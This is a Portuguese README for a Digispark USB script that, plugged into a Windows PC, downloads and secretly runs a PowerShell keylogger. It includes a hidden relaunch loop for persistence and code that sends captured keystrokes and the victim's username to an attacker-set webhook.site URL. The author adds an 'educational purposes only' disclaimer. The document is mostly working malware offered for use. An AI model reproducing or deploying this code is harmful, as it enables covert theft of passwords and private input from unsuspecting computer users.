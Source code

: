 #  Digispark KeyLoggerHooker
```


 ██▓     ▒█████   ▄████  ██▓ ▄████▄  
▓██▒    ▒██▒  ██▒██▒ ▀█▒▓██▒▒██▀ ▀█  
▒██░    ▒██░  ██▒██░▄▄▄░▒██▒▒▓█    ▄ 
▒██░    ▒██   ██░▓█  ██▓░██░▒▓▓▄ ▄██▒
░██████▒░ ████▓▒░▒▓███▀▒░██░▒ ▓███▀ ░
░ ▒░▓  ░░ ▒░▒░▒░ ░▒   ▒ ░▓  ░ ░▒ ▒  ░
░ ░ ▒  ░  ░ ▒ ▒░  ░   ░  ▒ ░  ░  ▒   
  ░ ░   ░ ░ ░ ▒ ░ ░   ░  ▒ ░░        
    ░  ░    ░ ░       ░  ░  ░ ░      
                            ░        


```

## Overview:
```
Script feito para Digispark, em que plugado no pc (Windows) baixa e executa um payload com a função de Keylogger
```
+ Baixa o arquivos necessários na pasta **$env:temp**
+ Secretamente executa c.cmd, que por sua vez carrega o payload ***(p.ps1)***
+ O arquivo **l.ps1** fica encarregado de reexecutar o payload a cada 1 minuto  como mostrado abaixo:

```c
for(;;) {
    try {
     # invoca o scritpt 
     $proc = Get-Content "$env:temp/DdBPKCytRe"
     Stop-process -id $proc -Force
     powershell Start-Process powershell.exe -windowstyle hidden "$env:temp/p.ps1"
    }
    catch {

    }
   
    # espera um minuto
    Start-Sleep 60
   }

```
* Após a execução  script envia uma requisição HTTP para um servidor WebHook configurado pelo atacante no arquivo **p.ps1**
```c
# COLOQUE O LINK DO WEBHOOK AQUI
$webhook = "https://webhook.site/Seu-ID"

# Escreve um PID
$PID > "$env:temp/DdBPKCytRe"

# Função do Keylogger
function KeyLogger($logFile="$env:temp/$env:UserName.log") {

  # Formata a requisição que será enviada para o webhook
  $logs = Get-Content "$logFile" | Out-String
  $Body = @{
    'username' = $env:UserName
    'content' = $logs
  }
  Invoke-RestMethod -Uri $webhook -Method 'post' -Body $Body

  # Gera um aquivo de log 
  $generateLog = New-Item -Path $logFile -ItemType File -Force
...
```
## Créditos:
[PrettyBoyCosmo/DucKey-Logger](https://github.com/PrettyBoyCosmo/DucKey-Logger) - Código que me baseei para adaptação para digispark 

[Gadotti/DigisparkScripts](https://github.com/Gadotti/DigisparkScripts) - Caso tenha problemas com letras ou sinais em função do teclado, recomendo esse git com a formatção de todas as teclas no teclado **PTBR-ABNT2**


## 
## *Este código é apenas para fins educacionais!! Não me responsabilizo pelo mau uso do mesmo.*
